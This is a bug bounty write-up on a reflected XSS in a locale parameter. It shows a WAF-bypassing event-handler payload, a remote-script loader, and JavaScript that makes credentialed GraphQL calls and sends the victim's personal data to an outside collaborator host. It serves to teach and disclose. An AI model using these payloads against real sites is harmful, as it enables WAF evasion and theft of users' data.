



# Reflected XSS + WAF Bypass

Found a reflected XSS on a paid program, managed to bypass the WAF using PortSwigger's list of payloads. Eventually, demonstrated higher impact by showing that this endpoint did not have any CSP, which allowed me to load scripts into a user's browser to interact with other endpoints to exfiltrate a victim's data.

## Discovery

I was initially interested in how this company was registering accounts, proxying requests and looking at how accounts were created. I noticed that there were requests going to `company.com/locale?locale=en`.

I decided to change the parameter to `locale=evil`. To my surprise, my input was reflected.



I decided to test some HTML payloads to see if it was rendered. I first tried using `meta` tags to see if redirection occurs:

```html
<meta http-equiv="refresh" content="0;url=https://evil.com/">
```

The final link was `company.com/locale?locale=HTML_PAYLOAD`. When visited, I was redirected to `evil.com`. This confirmed that HTML Injection was possible, and I was also able to inject other payloads:

```html
<a href="https://evil.com">Click me for money!</a>
```



## Escalation to XSS

Trying to achieve XSS was the next step after HTML Injection. Using `<script>alert(1)</script>` and `` resulted in 403s being returned due to the Cloudflare WAF. I knew that using a WAF as the final defence was not enough, because attackers could get around it.

The same thing applies for Content Security Policies (CSP) - if your CSP was the only thing stopping XSS payloads from working, it would still count as a valid finding. Check the browser console when testing for XSS!

Hence, I tried single payload possible from PortSwigger's XSS Cheat Sheet before trying to obfuscate my payload to see if it was blocking specific tags or event handlers.



I used Burp Intruder to do so, and eventually found one payload that was not blocked:



```html
<address oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>
```





## Increasing Impact

This particular endpoint required users to be logged in before accessing, and **did not have any CSP**. Since `alert(1)` worked, the next step was to escalate it to an Account Takeover or perform other authenticated actions. The cookies had `HttpOnly` enabled, and I did not find any other endpoint that reflected cookie contents on the page that allowed for cookie stealing.

My initial idea was to change `alert(1)` to `fetch`. This sent requests to other endpoints, capturing data to be exfiltrated to my Burp Collaborator. This did not work because the payload was too long, and also certain characters were blocked by the WAF.

Eventually, I decided to host the script elsewhere using sites like `webhook.site` or `ssrf.cvssadvisor.com`. The XSS payload was modified to make the browser fetch and execute the remote script:



```html
<address oncontentvisibilityautostatechange="let s=document.createElement('script');s.src='PAYLOAD_WEBSITE_HERE';document.head.appendChild(s)" style="display:block;content-visibility:auto">
```



The above code worked because there was no CSP for this endpoint. This was the code hosted remotely (code has been heavily redacted):

```js
fetch('https://company.com/api/graphql', {
    method: 'POST',
    credentials: 'include',
    body: '{"query":"query User { REDACTED }'
})
.then(r => r.text())
.then(d => {
    new Image().src = 'https://burp-collaborator/data?response=' + btoa(d);
    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
})
.catch(e => {
    new Image().src = 'https://burp-collaborator/error?msg=' + btoa(e.toString());

    setTimeout(() => {
        window.location.href = 'https://company.com';
    }, 5000);
});
```

Since this endpoint required authentication, using the `credentials: 'include'` feature of `fetch` allowed for authenticated calls to be made. GraphQL was used by this company, and queries were sent to retrieve a user's personal data and send it to my BurpSuite Collaborator server. Afterwards, the user would be redirected to `company.com`.

## Conclusion

Thanks to the high impact of this XSS demonstrated, I was awarded the highest bounty for a P3 issue.